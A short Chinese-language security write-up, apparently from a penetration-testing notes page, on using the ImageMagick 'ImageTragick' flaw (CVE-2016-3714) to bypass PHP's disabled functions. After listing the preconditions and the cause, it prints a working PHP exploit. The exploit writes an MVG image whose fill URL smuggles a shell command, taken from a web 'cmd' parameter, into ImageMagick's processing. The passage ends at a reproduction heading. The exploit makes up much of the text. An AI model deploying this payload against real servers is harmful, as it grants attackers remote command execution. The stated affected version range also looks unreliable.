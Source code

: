 利用ImageMagick 漏洞绕过(CVE-2016–3714)
---------------------------------

利用条件:

- 目标主机安装了漏洞版本的imagemagick（&lt;= 3.3.0）
- 安装了php-imagick拓展并在php.ini中启用；
- 编写php通过new Imagick对象的方式来处理图片等格式文件；
- PHP &gt;= 5.4

### ImageMagick介绍

ImageMagick是一套功能强大、稳定而且开源的工具集和开发包,可以用来读、写和处理超过89种基本格式的图片文件,包括流行的TIFF、JPEG、GIF、 PNG、PDF以及PhotoCD等格式。众多的网站平台都是用他渲染处理图片。可惜在3号时被公开了一些列漏洞,其中一个漏洞可导致远程执行代码(RCE),如果你处理用户提交的图片。该漏洞是针对在野外使用此漏洞。许多图像处理插件依赖于ImageMagick库,包括但不限于PHP的imagick,Ruby的rmagick和paperclip,以及NodeJS的ImageMagick等。

产生原因是因为字符过滤不严谨所导致的执行代码. 对于文件名传递给后端的命令过滤不足,导致允许多种文件格式转换过程中远程执行代码。

据ImageMagick官方，目前程序存在一处远程命令执行漏洞（CVE-2016-3714），当其处理的上传图片带有攻击代码时，可远程实现远程命令执行，进而可能控制服务器，此漏洞被命名为ImageTragick。  
[EXP](https://www.exploit-db.com/exploits/39766)如下:

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
    $command = 'id';
}

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
```

漏洞原理参考p牛文章:<https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html>

### 漏洞复现

获取和运行镜像
